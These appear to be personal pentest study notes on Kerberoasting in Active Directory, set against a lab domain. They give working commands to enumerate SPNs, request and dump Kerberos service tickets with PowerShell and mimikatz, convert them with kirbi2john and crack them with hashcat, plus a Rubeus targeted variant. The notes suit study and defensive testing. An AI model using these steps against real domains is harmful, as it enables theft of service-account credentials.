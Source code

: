-- -
This vector is centered around Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account. Any domain user can (theoretically) request a Kerberos ticket for said SPN as long as in the same domain or if allowed through a trust relationship w/ another domain. 

The Kerberos ticket itself doesn't grant us access to the Service Account, but the ticket is encrypted w/ the Service Account's NTLM Hash, so you can extract this and crack it to get the cleartext password of the Service Account, or run a PassTheHash attack with said hash.

*Note: Obtaining a TGS Ticket from Kerberos does not guarantee you a set of valid credentials as the ticket must be cracked. TGS tickets take longer to crack than say normal NTLM hashes, so if a strong password is used, you may not get a valid set of credentials.*

You can find the original talk that displayed this prominent vector to the world [here](https://www.youtube.com/watch?v=PUyhlN-E5MU)

#### Prereqs 
1. One of the following: 
	- Domain User Credentials 
	- Domain User NTLM Hash
	- A shell in the context of a domain user
	- A SYSTEM shell on domain joined computer
	- A Root shell on a domain joined computer
2. The IP/hostname of a DC we can query.
## Linux
### Impacket
[[Hacking Scratch/Tools/Active Directory/Impacket/GetUserSPNs]]
![[Hacking Scratch/Tools/Active Directory/Impacket/GetUserSPNs#^d1421f]]
[[Hacking Scratch/Tools/Passwords/Hashcat]]
![[Hacking Scratch/Tools/Passwords/Hashcat#^88073c]]
## Windows
#### PowerView
[[PowerView (depricated)|PowerView]]
![[PowerView (depricated)#^2c6ed0]]
#### "Manual" method
###### On windows box
```powershell
# Dump available SPNs to user you are logged in as
setspn.exe -Q */*

# Request TGs for specific user and dump to memory
# the ArgumentList value is derived from above output
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

# Request TGS for all SPNs avaialable
# will pull everything, including computer accounts so it's not very efficient
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

# Dump TGS(s) from memory w/ mimikatz
# should output to file and tell you it's location
mimikatz.exe
base64 /out:true # optional, may make it easier or harder to file transfer depending
kerberos::list /export
```
###### On Linux box
File transfer the export to you Linux box
```bash
# You can crack the kirbi file output if you did NOT use the base64 line above
# Otherwise, you need to get toe base64 blob to your cracking rig and do the following (commands are in bash). The following command will remove new lines and white spaces from the blob leaving a base64 encoded string representation of the .kirbi file.
echo "<base64 blob>" | tr -d \\n

# put string in "encoded_file", then use following line to decode the string
# and output to final .kirbi file
cat encoded_file | base64 -d > sqldev.kirbi

# Download this kirbi2john file:
wget https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py

# run it
python2.7 kirbi2john.py sqldev.kirbi

# format for hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

# crack like normal
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlist/rockyou.txt
```

#### Targeted Kerberoast
The vector here is that we have access to an account that can create a fake SPN, we then just use that and another user we want to take control of to launch a kerberoast attack and get their credentials.
**Create Fake SPN**
![[PowerView (depricated)#^ec631e]]
**Kerberoast it**
For other examples, check [[Rubeus|here]]
```pwoershell
.\Rubeus.exe kerberoast /user:<username> /nowrap
```